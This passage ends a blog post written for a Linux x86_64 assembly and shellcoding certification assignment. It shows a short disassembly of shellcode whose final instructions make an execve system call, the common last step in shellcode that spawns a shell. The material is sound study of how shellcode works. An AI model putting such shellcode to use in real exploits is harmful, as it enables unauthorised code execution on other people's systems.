 ```nasm
  401081:	48 89 e7             	mov    rdi,rsp
  401084:	50                   	push   rax
  401085:	48 89 e2             	mov    rdx,rsp
  401088:	57                   	push   rdi
  401089:	48 89 e6             	mov    rsi,rsp
  40108c:	48 83 c0 3b          	add    rax,0x3b
  401090:	0f 05                	syscall 
```
And it's all for this first assignment :)

***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-
linux/index.html)  
Student ID: PA-14186***
